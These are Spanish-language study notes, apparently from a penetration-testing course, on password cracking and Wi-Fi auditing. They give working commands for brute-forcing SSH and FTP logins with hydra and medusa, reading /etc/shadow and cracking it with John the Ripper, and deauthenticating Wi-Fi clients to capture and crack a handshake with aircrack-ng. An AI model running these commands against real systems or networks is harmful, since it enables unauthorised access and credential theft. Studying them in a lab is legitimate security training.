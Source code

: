 # Password Cracking

# Wordlist
cewl -v www.librosbitcoin.es -w wordlibros --> hace un diccionario con palabras de la web

crunch 2 4 abcABC123! -o crunchword  --> Contraseñas de 2 a 4 o:output

# Hashcat
Lenta, multihilo, calienta mucho la grafica, hace falta grafica buena(2g o mas), interfaz grafica...

Saber que tipo de hash --> hashidentifier, https://onlinehashcrack.com/hash-identification.php

# Hydra
Modo grafico(xhydra) o modo consola. Puede lanzar pruebas contra varios objetivos

`hydra -l msfadmin -P /root/rockyou.txt ssh://192.168.1.123 -vV -t 4 -e ns`

xhydra --> interfaz grafica

# Medusa
Más lento que hydra

medusa -d --> modulos de medusa

`medusa -h 192.168.1.123 -v 10 -M ftp -u root -P rockyou.txt`

# Herramientas para Hash
1. Cain 
2. Script python
3. Tipo de hash:
    * MD2
    * MD4
    * MD5
    * SHA-1
    * SHA-2(256)
    * SHA-2(384)
    * SHA-2(512)
    * RIPÈMD-160
    * LM
    * NT
    * CISCO PIX
    * VNC Hash

# Ophcrack
Windows vista y XP

https://ophcrack.sourceforge.io/ --> tambien version live

https://ophcrack.sourceforge.io/tables.php --> importamos tablas a ophcrack

/etc/passwd --> copiamos hash

load --> new hash 

https://crackstation.net/ --> crackeo contraseñas onlinehashcrack

onlinehashcrack.com --> por 5€ servicio

# Jhon the reaper
`john --wordlist /root/rockyou.txt pass.txt`

~~~
uname -a 
id
nano /etc/passwd
nano /etc/shadow
unshadow /etc/passwd /etc/shadow > passlinux
john passlinux
~~~


# Auditoria Wifi
WAP --> Wireless Access Point --> nombre de la red SSID --> todos los dispositivos comparten SSID --> es publico

Tarjetas:
* Alfa.com.tw 
* wifisky

# Aircrack POC
`aircrack-ng` 

`ifconfig` --> wlan0 

`iwconfig` --> tarjetas en modo monitor

`airmon-ng start wlan0`

`airmon-ng check kill` --> mata todos los procesos

`airodump-ng wlan0mon` --> buscar redes inhalambricas al alcance

`aireplay-ng --deauth 50 -a <BSSID> wlan0mon` --> 50 paquetes

`iwconfig wland0mon channel numero` --> cambiar de canal

`airodump-ng -c 11 --bssid BSSID -w captura wland0mon` --> c: channel w:write caputramos handshake

`aircrack-ng -w /usr/share/wfuzz/wordlist/big.txt -b BSSID /root/captura-01.cap` --> sacar contraseña del handshake con wordlist

# Airgeddon
`./airgeddon`

Interfaz de consola con aircrack y mas.

"Practica Evil Twin +5 points"

